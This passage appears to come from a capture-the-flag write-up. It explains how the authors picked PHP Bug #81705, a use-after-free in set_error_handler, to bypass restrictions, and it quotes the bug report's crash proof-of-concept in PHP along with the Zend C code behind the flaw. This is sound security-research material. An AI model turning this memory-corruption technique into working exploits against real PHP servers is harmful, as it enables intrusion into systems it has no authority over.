 If you, our dearest reader, wonder about what sophisticated techniques we follow to identify "happy accidents" that can be used for bypassing... fuzzing? code review? Nah! Just go to the PHP bug tracker and search for juicy keywords and then sort by date:


<figure>
<img src="/Challenge01-PHP-UAF/PHPBUGTRACKER.png" alt="Results for use-after-free on PHP bugtracker"> 
<figcaption>
Results for "use-after-free" on PHP bugtracker
</figcaption>
</figure>

In our case the first one ([Bug #81705 	type confusion/UAF on set_error_handler with concat operation](https://bugs.php.net/bug.php?id=81705)) can fit our needs as the function `set_error_handler` is enabled.

# [Dream Theater - The root of all evil](https://www.youtube.com/watch?v=aK0Gi-bhC-o)

The issue and the root cause are well explained in the original report, so we are going to limit ourselves by quoting the original text:

*Here is a proof of concept for crash reproduction:*

```php
<?php

$my_var = str_repeat("a", 1);
set_error_handler(
    function() use(&$my_var) {
        echo("error\n");
        $my_var = 0x123;
    }
);
$my_var .= [0];

?>
```

*If you execute this snippet, it should cause SEGV at address 0x123.*

*(...)*

*When PHP executes the line `$my_var .= [0];`, it calls `concat_function` defined in Zend/zend_operators.c to try to concat given values. Since the given values may not be strings, `concat_function`tries to convert them into strings with [`zval_get_string_func`](https://github.com/php/php-src/blob/master/Zend/zend_operators.c#L1900).*

```c
ZEND_TRY_BINARY_OBJECT_OPERATION(ZEND_CONCAT);
	ZVAL_STR(&op1_copy, zval_get_string_func(op1));
	if (UNEXPECTED(EG(exception))) {
		zval_ptr_dtor_str(&op1_copy);
		if (orig_op1 != result) {
			ZVAL_UNDEF(result);
		}
		return FAILURE;
	}
```
